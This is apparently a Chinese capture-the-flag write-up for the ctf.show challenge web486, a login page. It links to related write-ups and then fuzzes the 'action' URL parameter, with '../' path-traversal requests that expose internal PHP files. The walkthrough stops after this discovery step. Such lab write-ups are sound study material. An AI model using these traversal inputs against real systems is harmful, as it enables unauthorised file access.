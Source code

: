 # 中期测评

[ctf.show中期测评(web486-web516)_ctfshow 中期测评_wanan0red的博客-CSDN博客](https://blog.csdn.net/m0_63303407/article/details/126677370)

[ctfshow-中期测评 | 尘～落 (chenluo77.com)](http://chenluo77.com/2021/10/25/782.html#toc-heading-3)

[CTFSHOW中期测评486-509持续更新中 - 编程之家 (jb51.cc)](https://www.jb51.cc/php/1076041.html)

## web486

题目是个登录框，这下能想到什么呢？弱口令、sql注入、shiro、js泄露、脆弱性的验证。。。

<img src=".\图片\Snipaste_2023-08-11_14-58-44.png" alt="Snipaste_2023-08-11_14-58-44" style="zoom:67%;" />

发现 url 很有特点，尝试修改 ?action=index

```http
http://3777c7d6-f37d-4259-8e72-15b665b15364.challenge.ctf.show/index.php?action=index
```

得到存在页面，继续 fuzz，查看源码发现以下目录皆存在

```
http://3777c7d6-f37d-4259-8e72-15b665b15364.challenge.ctf.show/index.php?action=../index
http://3777c7d6-f37d-4259-8e72-15b665b15364.challenge.ctf.show/index.php?action=../render/render_class
http://3777c7d6-f37d-4259-8e72-15b665b15364.challenge.ctf.show/index.php?action=../render/file_class
```

